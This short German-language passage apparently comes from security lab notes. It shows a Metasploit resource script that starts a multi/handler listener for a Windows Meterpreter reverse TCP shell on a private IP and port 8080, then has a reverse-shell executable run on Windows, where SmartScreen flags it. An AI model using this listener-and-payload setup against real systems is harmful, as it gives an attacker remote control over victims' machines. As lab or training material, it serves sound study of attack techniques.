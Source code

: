 Mit einem msf Resource Script:

```sh
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_tcp\nset lhost 192.168.178.81\nset lport 8080\nrun\n" > msf_macro_tcp_8080.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

Dann `mp_tcp_rev_shell_8080.exe` unter Windows starten. Dabei schlägt SmartScreen an:

<img src="fig/image-20210629115555741.png" alt="image-20210629115555741" style="zoom:33%;" />
